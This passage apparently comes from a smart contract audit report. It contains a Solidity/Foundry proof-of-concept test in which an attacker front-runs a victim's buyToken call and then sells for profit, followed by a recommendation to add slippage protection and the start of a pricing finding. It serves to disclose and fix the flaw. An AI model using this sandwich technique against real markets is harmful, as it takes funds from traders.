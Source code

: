Sandwich Attack POC:

```solidity
function testBuyTokenSandwich() public {
    address attacker = makeAddr("attacker");
    address victim = makeAddr("victim");

    vm.deal(attacker, 100 ether);
    vm.deal(victim, 100 ether);

    vm.prank(attacker);
    token.approve(address(seriousMarket), type(uint256).max);

    // Track balance before the attack
    uint256 attackerBalanceBefore = attacker.balance;

    // The attacker frontruns the buyToken operation
    vm.prank(attacker);
    seriousMarket.buyToken{value: 10 ether}(address(token), 657_000_000 - 400_000_000, bytes8(0));

    // The victim's transaction is processed after the attacker one
    vm.prank(victim);
    seriousMarket.buyToken{value: 10 ether}(address(token), 400_000_000, bytes8(0));

    // The attacker completes the sandwich attack by executing a sellToken operation right after
    uint256 amount = token.balanceOf(attacker) / 1e18;
    vm.prank(attacker);
    seriousMarket.sellToken(address(token), amount, 0, 0, bytes8(0));

    // The took an unfair profit from a victim who paid more than expected for buying tokens
    uint256 attackerBalanceAfter = attacker.balance;
    assertGt(attackerBalanceAfter - attackerBalanceBefore, 3 ether);
}
```

## Recommendations

Allow users to set a slippage parameter just like in `sellToken()`.

# [M-02] Latest tokens bought in the market are more expensive than in the pool

## Severity

**Impact:** Low

**Likelihood:** High

## Description

The price of the tokens bought in the market increases as the number of `tokensSold` approaches `tradeableSupply`. This means that the last tokens bought in the market are ~1% more expensive than the first tokens bought in the pool.
